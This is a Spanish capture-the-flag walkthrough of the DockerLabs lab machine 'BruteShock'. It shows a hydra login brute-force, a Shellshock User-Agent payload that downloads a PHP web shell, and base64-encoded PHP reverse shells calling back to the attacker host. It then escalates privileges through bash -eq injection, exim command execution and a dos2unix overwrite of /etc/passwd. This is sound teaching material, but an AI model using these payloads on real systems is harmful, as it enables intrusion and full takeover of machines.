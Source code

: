 Hoy resolveremos la máquina "BruteShock" de [DockerLabs](https://dockerlabs.es)

Autor: [Darksblack & maciiii___(yo)](https://linktr.ee/maciiii___)

Dificultad: Medio

![BruteShock](img/BruteShock.png)

# RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Nov  2 15:15:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-11-02 15:15:01 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  2 15:15:09 2024 -- 1 IP address (1 host up) scanned in 8.36 seconds
```

En este caso solo el puerto 80 está abierto y corre `Apache httpd 2.4.62`.

Vamos a la web y no encontramos con lo siguiente:

![web](img/web.png)

Como vemos tenemos un panel de login, y si probamos las credenciales básicas no no sirve, por lo que recurrimos a `hydra`, pero primero revisamos si tenemos cookies:

![cookies](img/cookies.png)

al parecer tenemos una, por la que también se la pasaremos a `hydra` para que haga el ataque:
Formato:

```css
hydra -l <user> -P <wordlist> <ip> http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: <nombre de la cookie>=<cookie>:F=<mensaje de error>" -V
```

Aplicado:

```css
hydra -l admin -P /opt/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=4iulq1ru3emdckdsoipiuq413m:F=Credenciales incorrectas." -V
```

![hydra](img/hydra.png)

Ingresamos las credenciales y vemos la siguiente página:

![web2](img/web2.png)

De primeras parece un pishing pero no lo es, si probamos a ingresar algo no pasa nada interesante, pero en el mensaje dice "User-Agent almacenado en el log". Luego de buscar de que puede tratar ([info](https://blog.cloudflare.com/inside-shellshock/)) intento aprovecharlo. Para esto abro burpsuite y pruebo lo siguiente:

1. Inicio un servidor con python:

   ```css
   python3 -m http.server 8000
   ```

2. Creo un archivo php que me permita ejecutar comandos al subirlo:

   ```php
   <!DOCTYPE html>
   <html>
   <body>
   <form method="GET">
       <input type="text" name="cmd" placeholder="command">
       <button type="submit">Ejecutar</button>
   </form>
   <pre>
   <?php
   if (isset($_GET['cmd'])) {
       system($_GET['cmd']);
   }
   ?>
   </pre>
   </body>
   </html>
   ```

   

3. Capturo la petición al entrar a la página y lo envío al repeater(ctrl+r):

   ![request](img/request.png)

4. Cambio el user-agent por lo siguiente:

   ```css
   () { :; }; curl 172.17.0.1:8000/cmd.php -o cmd.php
   ```

   

Una vez ejecutado veremos esto:

![python3](img/python3.png)

ahora que la shell se guardó, entramos por el navegador y veremos una página para ejecutar comandos:

![web2](img/web3.png)

ya podemos ejecutar comandos en la máquina victima.

# INTRUSIÓN

Para enviarnos una reverse shell no lo podemos hacer con la típica shell de bash, ya que al parecer la máquina las bloquea, por lo que usaremos la página [revshells](https://revshells.com) y usaremos la de `php exec`, escuchamos en el puerto 443 con netcat (`sudo nc -lvnp 443`) y la enviamos por la web en base64 de la siguiente manera:

```css
echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0Myk7ZXhlYygiYmFzaCA8JjMgPiYzIDI+JjMiKTsn" | base64 -d | bash
```

Una vez enviado habremos ganado acceso.

# ESCALADA DE PRIVILEGIOS

### www-data

Para hacer el tratamiento de la tty es un poco distinto, deberemos hacer lo siguiente:

```bash
export SHELL=bash
export TERM=xterm
script /dev/null -c bash
^Z

stty raw -echo; fg
reset xterm
```

Ahora si revisamos los usuarios en la máquina, veremos 3:

`darksblack`

`maci`

`pepe`

Si buscamos cada archivo por cada usuario veremos lo siguiente:

```css
find / -user "darksblack" 2>/dev/null
```

```css
/home/darksblack
/var/backups/darksblack
/var/backups/darksblack/.darksblack.txt
```

Como vemos tenemos un txt el cual si lo leemos es el hash del shadow para el usuario darksblack, por lo que utilizaremos este metodo para crackear la contraseña: [Cracking a shadow password using john the ripper](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)

Una vez completado todos los pasos obtendremos la siguiente contraseña:

![john](img/john.png)

Por lo que escalamos con `su darksblack` e introducimos sus credenciales.

### Darksblack

Si ejecutamos `sudo -l` veremos que podemos ejecutar como el usuario "maci" un script que se encuentra en su home (por lo que no lo podremos leer), así que lo ejecutamos y vemos que pasa:

![scriptsh](img/scriptsh.png)

Al parecer tenemos que adivinar un numero, este script puede que use un `eq comparer` de bash para verificar si nuestra entrada es correcta, por lo que si el script usó doble corchete para hacerlo, podremos inyectar un comando y escalar, para hacerlo escribiremos lo siguiente en la adivinanza:

```css
a[$(/bin/bash >&2)]+42
```

[Mas Info](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/)

### Maci

Ahora al ejecutar `sudo -l`, veremos que podemos ejecutar el binario `exim` como el usuario pepe, si investigamos de como escalar encontraremos exploits, pero no son útiles en este caso, ya que exim nos permite ejecutar comandos de la siguiente manera:

```css
exim -be 'x=${run{/bin/id}}'
```

Por lo que si lo ejecutamos con sudo como el usuario pepe, estaríamos ejecutando comandos como ese usuario. Para poder escalar no podemos hacerlo con ejecutar "/bin/bash" o "/bin/bash -p", ya que exim no nos dejará hacerlo, la manera correcta es crear un script en "/tmp/" y que contenga la misma shell de php que usamos para entrar solo que dirigida a otro puerto, la manera simple es esta:

1. Escuchamos con netcat en el puerto 4444

2. Luego ejecutamos lo siguiente:

   ```css
   echo '#!/bin/bash' > /tmp/script && echo "echo 'cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0NDQpO2V4ZWMoImJhc2ggPCYzID4mMyAyPiYzIik7Jw==' | base64 -d | bash" >> /tmp/script && chmod +x /tmp/script && sudo -u pepe exim -be 'x=${run{/tmp/script}}'
   ```

   

en resumen el comando crea el script y lo ejecuta como pepe. Una vez ejecutado habremos recibido una shell como el usuario pepe.

### Pepe

Ahora al ejecutar `sudo -l` veremos que podemos ejecutar el binario `dos2unix` como root, por lo que para escalar deberemos hacer lo siguiente:

1. Creamos un archivo en `/tmp/` llamado passwd con el contenido de `/etc/passwd` solo que eliminando la "x" de root, una vez creado ejecutamos lo siguiente:

   ```css
   passwd1=/tmp/passwd
   passwd2=/etc/passwd
   ```

   

2. Ejecutamos `dos2unix` de la siguiente manera:

   ```css
   sudo dos2unix -f -n "$passwd1" "$passwd2"
   ```

   

### Root

Escalamos a root ejecutando `su`.

![root](img/root.png)

Gracias por leer.....